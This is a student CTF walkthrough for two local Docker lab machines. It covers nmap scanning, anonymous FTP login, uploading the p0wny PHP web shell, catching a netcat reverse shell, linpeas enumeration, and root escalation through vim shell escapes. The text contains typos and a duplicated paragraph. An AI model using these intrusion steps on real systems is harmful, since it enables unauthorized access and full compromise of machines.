

Nmap 1
So first week of comsec I hope everyone enjoyed the slides and is prepared for the ctf.
after running this commands
git clone https://github.com/Cov-ComSec/ComSecMaterials.git
cd docker1
docker-compose up

If you do see this it means you are ready for playing. Minimize your shell open a new one and start scanning.
Nmap Scan
sudo nmap -sC -sV 172.18.0.1
It looks like we have 4 ports open 21,25,80,8080 Lets navigate to http://172.18.0.1
If you look at your nmap scan you can see that u have something like "/ftp-uploads" so this a directory in the website let's see whats going on in there. We have a folder called a anonymous let's see what's inside. Hm a file called FTPflag.txt looks like we found the first flag. Good Job!

So you have one flag.To be honest this flag works more like a hint to tell you what you should do after this. So if you go back to your nmap scan you will see that you have a line "21/tcp open ftp Pure-ftp" so we have a file transfer protocol it is always good to check as this can sometimes be used for file upload to the machine you are attacking. But what's the mean of ftp-anonymous if you do a fast google search you will find out that when this happens you can have acces to ftp server without having to know the credentials.So lets try to connect to the ftp.
ftp 172.18.0.1
cd p0wny-shell
ftp 127.18.0.1
put shell.php
 So you succefully entered the machine. Let's look for the last flag. A easy way to find files on linux is using the file command.
So you succefully entered the machine. Let's look for the last flag. A easy way to find files on linux is using the file command.
find / -name "*.txt" 2>/dev/null
Congratulations! Lets move to docker2
Nmap 2
So to prove how important is nmap we setup a second nmap challenge but right now we not following the common ports as you can see in here. We mangled the ports
sudo nmap -sC -sV 192.168.42.1 -p-

In this challenge the ftp part is the same as the first challenge and the first flag is the same, the only difference is that the ports have been changed so if you to "http://192.168.42.1" the website is not going to load you need to instead look for something like this "192.168.42.1:8080". So lets pass to the second part uploading files to ftp. We have ftp running on port 2121 (2121/tcp ccproxy-ftp) last time you use "ftp $ip" to connect this time that wont work cause you will need to specify the port os instead use something like this "ftp $ip port"
ftp 192.168.42.1 2121

Which means you ready. Open a terminal and start netcat.
nc -lvnp 1234
whoami
cp linpeas.sh /tmp
chmod +x linpeas.sh
./linpeash.sh

That last line mentioning vim.basic maybe we can do some research and see how we can exploit it. Fortunately there is a good resource called "GTFOBINS" which is used for looking how we can exploit binaries look for vim and you will see that you can spawn a shell inside vim or using the command.
:!/bin/sh
#or
vim -c ':!/bin/sh'
cd /root
cat flag.txt
Author:Tiago Pascoal @bs1phc